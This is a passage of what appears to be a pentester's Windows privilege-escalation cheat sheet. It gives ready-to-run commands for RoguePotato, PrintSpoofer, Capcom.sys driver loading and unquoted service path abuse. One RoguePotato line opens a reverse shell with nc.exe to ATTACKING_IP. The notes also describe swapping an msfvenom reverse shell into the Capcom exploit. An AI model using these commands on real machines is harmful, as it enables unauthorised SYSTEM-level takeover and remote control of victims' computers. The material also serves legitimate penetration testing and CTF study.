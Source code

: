 ```
# On attacking machine
socat tcp-listen:135,reuseaddr,fork tcp:VICTIM_IP:9999

# On victim machine
.\RoguePotato.exe -r ATTACKING_IP -e "C:\Windows\Tasks\nc.exe ATTACKING_IP 1234 -e cmd.exe" -l 9999
```

- https://github.com/itm4n/PrintSpoofer

```
PrintSpoofer64.exe -i -c cmd.exe
```

##### SeLoadDriver

- Explainations : https://www.tarlogic.com/blog/abusing-seloaddriverprivilege-for-privilege-escalation/
- Walkthrough : https://0xdf.gitlab.io/2020/10/31/htb-fuse.html#priv-svc-print--system
- Load the vulnerable driver : https://github.com/TarlogicSecurity/EoPLoadDriver/blob/master/eoploaddriver.cpp
- Capcom.sys, a vulnerable driver : https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys
- Exploit Capcom : https://github.com/tandasat/ExploitCapcom

Compile the files using Visual Studio. Release / x64 -> Build. Remove the include "stdafx.h" if error.
You should modify the TCHAR CommandLine[] = TEXT("C:\\Windows\\system32\\cmd.exe"); launched in the exploit first. Replace by a rev generated using msfvenom.
Load then exploit the vulnerable driver. 
```
./EoPLoadDriver.exe System\CurrentControlSet\MyService C:\Users\svc-print\Capcom.sys
./ExploitCapcom.exe
```
#### Unquoted Service Paths

- When the path is not quoted (ex: C:\Program files\soft\new folder\exec.exe) Windows will try to execute first 'C:\Program.exe', then 'C:\Program Files\soft\new.exe' and finally 'C:\Program Files\soft\new folder\exec.exe'. Try to create 'C:\Program Files\soft\new.exe'

```
# find unquoted service
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """

# check if running as system or admin
sc qc <service_name>

# check path
icacls <service_path>

# After creating or replacing the binary by a malicious one
# if start type is Auto, you need SeShutdownPrivilege to reboot
shutdown /r /t 0
```
